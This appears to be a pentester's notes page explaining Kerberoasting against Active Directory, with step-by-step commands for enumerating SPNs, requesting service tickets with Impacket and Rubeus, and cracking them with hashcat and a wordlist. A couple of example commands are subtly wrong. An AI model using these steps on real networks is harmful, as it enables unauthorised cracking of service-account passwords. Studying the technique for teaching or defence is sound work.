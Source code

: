 # Kerberoasting (TGS-REP roasting)

{% embed url="https://www.techcrafters.com/portal/en/kb/articles/how-to-list-all-spns-in-a-domain-using-powershell#2__Querying_SPNs" %}

{% embed url="https://www.ibm.com/think/topics/kerberoasting" %}

{% embed url="https://learn.microsoft.com/en-us/powershell/module/activedirectory/get-adserviceaccount?view=windowsserver2025-ps" %}

### What is Kerberoasting?

Kerberoasting (also known as **TGS-REP roasting**) relies on the fact that a Ticket Granting Service (TGS) created for a service will be encrypted with a hash derived from the password of the associated service account. This allows an attacker to perform a dictionary attack to potentially crack the passwords of service accounts linked to services defined by the Service Principal Names (SPNs).

**TGS-REP** refers to the **Kerberos ticket-granting service (TGS) response** message, where the KDC validates the TGT, and if valid, responds with a service ticket (TGS) encrypted with the target service account's key.

### (1) Retrieve a list of SPNs in the network

1. `Get-ADServiceAccount` cmdlet

{% code overflow="wrap" %}
```powershell
PS> Get-ADServiceAccount -Filter 'ServicePrincipalNames -like "*"' | Select-Object -ExpandProperty ServicePrincipalNames
```
{% endcode %}

2. Impacket-scripts: **GetUserSPNs**

{% code overflow="wrap" %}
```sh
$ impacket-GetUserSPNs -dc-ip <DOMAIN_CONTROLLER> <TARGET>
```
{% endcode %}

* `<TARGET>:` The domain user account to authenticate to the KDC with
  * By default, all domain users can read the `servicePrinicpalName` attribute (required by the script)
  * Thus, as long as a valid user account is provided, it will not affect the results of the script

### (2) Retrieve the TGS for the SPNs we have found

1. &#x20;`impacket-GetUserSPNs` with the `-request-user` flag

{% code overflow="wrap" %}
```sh
$ impacket-GetUserSPNs -dc-ip <DOMAIN_CONTROLLER> <TARGET> -request-user <SERVICE_USER> 
```
{% endcode %}

* `-request-user:` Requests TGS for the SPN associated to the user specified (just the username, no domain needed)

2. `Rubeus.exe`

{% code overflow="wrap" %}
```powershell
C:\> Rubeus.exe kerberoast /spn:<SPN> /ticket:<EXISTING_TGT> 
C:\> Rubeus.exe kerberoast /user:<USERNAME> /ticket:EXISTING_TGT 
```
{% endcode %}

* `/ticket:` Specifies the TGT to use when requesting the service tickets
* `/spn:` Roasts just the specified SPN
* `/user:` Roasts just the specified user

**Other useful flags**

a. `/outfile:FILE:` outputs roasted hashes to the specified file, one per line

b. `/simple:` roasted hashes will be output to the console, one per line

**Combined command**

Or, we can directly enumerate the SPNs and request for the associated TGS all in one command:

{% code overflow="wrap" %}
```powershell
C:\> Rubeus.exe kerberoast
```
{% endcode %}

### (3) Perform dictionary attack on the obtained TGS

```sh
$ hashcat -a 0 -m 13100 <path_to_spn_hash> 
# eg. 
$ echo > spn.hash 
$ hashcat -a -m 13100 spn.hash /usr/share/wordlist/rockyou.txt
```

* `-a`: Attack mode&#x20;
  * `-a 0`: Dictionary attack&#x20;
* `-m` : Hash mode&#x20;
  * `-m 13100`: **Kerberos 5, etype 23, TGS-REP**

